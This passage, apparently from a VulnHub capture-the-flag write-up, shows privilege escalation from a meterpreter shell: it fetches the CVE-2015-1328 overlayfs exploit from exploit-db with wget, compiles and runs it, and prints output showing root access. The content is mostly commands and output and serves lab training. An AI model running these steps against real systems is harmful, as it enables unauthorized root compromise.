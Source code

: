 ## Privilege escalation

We need a privilege escalation. Like for
[Fart-knocker](https://maggick.fr/2015/06/vulnhub-fart-knocker.html#CVE-2015-1328)
We can use the CVE-2015-1328 exploiting overlayFS to get a root shell on the
machine.

We spawn a shell:

    meterpreter > shell
    Process 1233 created.
    Channel 1 created.

We still have the permissions of `www-data`:

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

We download the exploit `ofs.c`:

    wget https://www.exploit-db.com/download/37292
    --2016-05-10 15:58:12--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  358M=0s

    2016-05-10 15:58:12 (358 MB/s) - '37292' saved [5123/5123]

We rename the file:

    mv 37292 ofs.c

We compile it and add execution permission:

    gcc ofs.c -o ofs
    chmod +x ofs

Then we just run it to gain root privileges on the box:

    :::text
    ./ofs
    collect2: error: ld returned 1 exit status
    spawning threads
    mount #1
    mount #2
    child threads done
    /etc/ld.so.preload created
    creating shared library
    sh: 0: can't access tty; job control turned off
    id
    # uid=0(root) gid=0(root) groups=0(root),33(www-data)
